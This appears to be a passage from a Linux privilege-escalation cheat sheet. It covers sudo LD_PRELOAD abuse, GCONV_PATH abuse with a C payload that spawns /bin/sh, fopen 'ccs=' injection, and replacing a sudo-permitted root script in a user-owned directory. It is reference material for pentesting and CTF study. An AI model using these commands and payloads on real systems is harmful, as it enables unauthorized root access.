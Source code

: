 ~~~ bash
gcc -fPIC -shared -o ./exploit.so ./exploit.c -nostartfiles
sudo LD_PRELOAD="$PWD/exploit.so" /some/executable with some options
~~~

## $GCONV_PATH Exploitation

If a program uses GLib (the Gnome library, not GNU Lib C) and it's somehow possible to set an environment variable, then a GLib feature can be abused for code execution.

~~~ bash
mkdir -p /tmp/pwn/
cat << 'EOF' > /tmp/pwn/gconv-modules
module PAYLOAD// INTERNAL  /tmp/pwn/payload 2
module INTERNAL  PAYLOAD// /tmp/pwn/payload 2
EOF
cat << 'EOF' > /tmp/pwn/payload.c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  puts("pwned");
  system("/bin/sh");
  exit(0);
}
EOF
gcc /tmp/pwn/payload.c -o /tmp/pwn/payload.so -shared -fPIC
~~~

When the environment variable `GCONV_PATH=/tmp/pwn` can be set for the target program, `payload.so` is loaded.

Another rare occasion is, when the second parameter of `fopen()` is user controlled input.
For example when the resulting call is `fopen("random-path-that-does-not-have-to-exist", "r,ccs=payload");`.

References:

- [Getting arbitrary code execution from fopen's 2nd argument](http://web.archive.org/web/20221222190538/https://hugeh0ge.github.io/2019/11/04/Getting-Arbitrary-Code-Execution-from-fopen-s-2nd-Argument/)

## Root-owned Binary in User-owned Directory

~~~
$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
$ ls -la
total 44
drwx------ 3 cyber cyber 4096 Jan 20 01:51 .
drwxr-xr-x 4 root  root  4096 Nov 16 15:28 ..
-rw------- 1 cyber cyber  104 Jan 20 01:52 .bash_history
-rw-r--r-- 1 cyber cyber  220 Nov  9 21:06 .bash_logout
-rwx------ 1 root  root   349 Nov 15 18:33 run.py
$ mv ./run.py ./run.py.bak
$ echo "$PAYLOAD" > ./run.py
$ sudo /usr/bin/python3 /home/cyber/run.py
~~~
